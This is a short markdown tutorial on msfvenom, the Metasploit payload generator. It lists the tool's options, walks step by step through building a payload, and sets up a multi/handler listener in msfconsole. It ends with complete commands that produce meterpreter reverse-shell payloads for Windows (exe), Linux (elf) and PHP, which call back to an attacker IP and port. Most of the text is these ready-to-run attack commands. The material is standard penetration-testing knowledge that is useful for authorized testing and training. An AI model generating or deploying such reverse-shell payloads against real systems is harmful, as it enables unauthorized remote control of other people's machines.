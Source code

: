 **msfvenom** is primarily used for generating payloads, which are pieces of code that can be delivered to a target system to exploit vulnerabilities or gain unauthorized access.

| Option        | Description                                                                  |
| ------------- | ---------------------------------------------------------------------------- |
| **`-p`**      | Specify the payload (e.g., `windows/meterpreter/reverse_tcp`).               |
| **`OPTIONS`** | Set parameters such as `LHOST` (attacker’s IP) and `LPORT` (listening port). |
| **`-f`**      | Define the output format (e.g., `exe`, `elf`, `raw`, etc.).                  |
| **`-o`**      | Optional flag to specify an output file.                                     |

```bash
msfvenom -p <payload> OPTIONS -f <format> -o <output_file>
```

####  Steps to Generate Payloads

1. **Choose a Payload**

List all available payloads:

```bash
msfvenom -l payloads
```

 2. **Set Options**

Most payloads require options like `LHOST` (attacker’s IP) and `LPORT` (listening port). For example:

```bash
msfvenom -p <payload> LHOST=<attacker_ip> LPORT=<port>
```

 3. **Choose an Output Format**

List all available formats:

```bash
msfvenom -l formats
```

 4. **Generate and Save Payload**

Save the payload to a file:

```bash
msfvenom -p <payload> LHOST=<attacker_ip> LPORT=<port> -f <format> -o <output_file_name>
```

5. **Set Up the Listener in msfconsole**

```bash
msfconsole
use exploit/multi/handler
# Set the payload to match the one generated with msfvenom
set payload <payload_name>
set LHOST <your_kali_ip> 
set LPORT 4444
exploit
```

#### Examples

```bash
# Windows reverse shell
msfvenom -a x64 -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.1.10 LPORT=4444 -f exe -o reverse_shell.exe
# Linux reverse shell
msfvenom -a x64 -p linux/x64/meterpreter/reverse_tcp LHOST=<attacker_ip> LPORT=4444 -f elf -o reverse_shell.elf
# Linux ELF reverse shell
msfvenom -a x64 -p linux/x64/meterpreter/reverse_tcp LHOST=192.168.1.10 LPORT=4444 -f elf -o shell.elf
# PHP reverse shell
msfvenom -p php/meterpreter/reverse_tcp LHOST=192.168.1.10 LPORT=4444 -f raw -o shell.php
```
